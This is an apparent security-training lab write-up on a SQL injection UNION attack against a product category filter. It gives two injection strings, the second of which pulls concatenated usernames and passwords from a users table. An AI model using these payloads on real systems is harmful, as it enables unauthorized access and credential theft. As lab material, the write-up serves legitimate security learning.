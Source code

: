 Title: SQL injection UNION attack, retrieving multiple values in a single column
Level: Practitioner
Desc:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

category=Accessories' OR 1=1 UNION SELECT '1','2'-- 

category=Accessories' OR 1=1 UNION SELECT '1',concat(username,password) FROM users-- 

